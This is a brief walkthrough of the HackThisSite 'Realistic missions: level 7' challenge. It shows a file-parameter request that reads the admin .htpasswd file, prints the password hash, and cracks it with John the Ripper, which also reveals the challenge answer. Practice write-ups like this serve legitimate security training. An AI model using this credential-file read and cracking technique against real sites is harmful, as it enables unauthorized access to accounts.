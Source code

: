 # Realistic missions: level 7

There's an open directory listing on `https://www.hackthissite.org/missions/realistic/7/images/`, revealing the existence of the `admin/` directory. We can't access the admin-directory though, as we're prompted for a password.

By accessing `https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/index.php` we can't show the admin page either. What we can access though, is the `.htpasswd` page: `https://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd`. Here, the password is given away:

```
administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1
```

Cracking the password isn't really difficult using john the ripper:

```
$ john htpasswd
```

The result is:
```
administrator:shadow
```

